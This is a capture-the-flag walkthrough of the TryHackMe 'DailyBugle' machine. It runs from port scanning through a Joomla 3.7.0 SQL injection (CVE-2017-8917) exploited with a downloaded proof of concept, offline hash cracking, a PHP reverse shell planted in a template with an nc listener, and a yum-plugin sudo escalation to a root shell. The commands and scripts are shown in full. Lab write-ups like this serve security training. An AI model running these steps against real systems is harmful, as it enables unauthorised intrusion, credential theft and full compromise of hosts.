



# DailyBugle

### Typology: _Linux_

--- 

We can start with nmap:
```bash
nmap -sC -sV -p- --min-rate=1200 10.10.150.113

PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp    open     http        Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3068/tcp  filtered ls3bcast
6673/tcp  filtered vision_elmd
13028/tcp filtered unknown
31205/tcp filtered unknown
49388/tcp filtered unknown
50720/tcp filtered unknown
50954/tcp filtered unknown
55204/tcp filtered unknown
65431/tcp filtered unknown
```

Summarize:

| **_Port_** |                                         **_Description_**                                        |
|:----------:| ------------------------------------------------------------------------------------------------ |
| Port 22    | SSH service is open but we don't have any credentials|
| Port 80    | HTTP service, there is a robots.txt   |
| Port 3068-65431   | N/D |


### Port 80:



We can see from `Wappalyzer` that is `JOOMLA CMS`, we can gain more information in `/robots.txt`:
```bash
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

If we browse to `/Administrator` it will prompt a login pange but we don't have any credentials.

A quick search on google `Joomla Pentest` will show a cool page on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla), an interesting URI path is this one:
```xml
/administrator/manifests/files/joomla.xml

<version>3.7.0</version>
```
> I tried other commands tool, like bruteforce (no results) or scanner but they gave the same results

We can find out the version, let's find out if it's vulnerable

### CVE-2017-8917:

It's vulnerable to a SQL injection, [here](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html) the link to understand how it works. 

Further research results in two ways to exploit it:

- Manual with sqlmap, follow the steps at this [link](https://www.exploit-db.com/exploits/42033)

- Automated POC at this [link](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py)

We can use the automated POC:

> Trust me It's more fast than the manual

```bash
wget https://github.com/stefanlucas/Exploit-Joomla/raw/master/joomblah.py

python3 joomyla.py http://10.10.150.113/index.php

Fetching CSRF token
Testing SQLi
Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '<REDACTED>', '', '']
Extracting sessions from fb9j5_session
```
We retrieve an hash, we save in a file and we can crack via john:
```bash
echo 'hash' > hash

john hash -w=/usr/share/wordlists/rockyou.txt

0g 0:00:00:05 0.01% (ETA: 10:22:28) 0g/s 270.9p/s 270.9c/s 270.9C/s runescape..marjorie
<REDACTED>     (?)     
1g 0:00:02:53 DONE (2024-01-30 18:32) 0.005756g/s 269.7p/s 269.7c/s 269.7C/s sweetsmile..setsuna
```
We have valid credentials for the webpage

### Admin panel:



We must gain an RCE, an useful insight is in the previous page on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla):



If we following the steps we can add a revshell in `error.php`, we can use the one called `PHP PentestMonkey` on [revshells' site](https://www.revshells.com/)

open the listener:
```bash
rlwrap -cAr nc -lvnp 4445
```
We're in, it's time to enumerate

### Privesc User:

Before to run `linpeas` or other automated tools, we can looking around the filesystem

> Remember there is an entire website to scour

Indeed we can found a valid password in `/var/www/html/configuration.php` for the user jjameson, we can retrieve the  first flag

> I spent some time to launch manual command in order to enumerate

### Privesc Root:

This time we can see something at first glance by prompt this command:
```bash
sudo -l

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
Quick search on google will results in a cool link on [GTFObins](https://gtfobins.github.io/gtfobins/yum/)

We can privesc to root user with theese commands:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
```
Then:
```bash
sudo yum -c $TF/x --enableplugin=y
```
We're root and we can find and submit the last flag.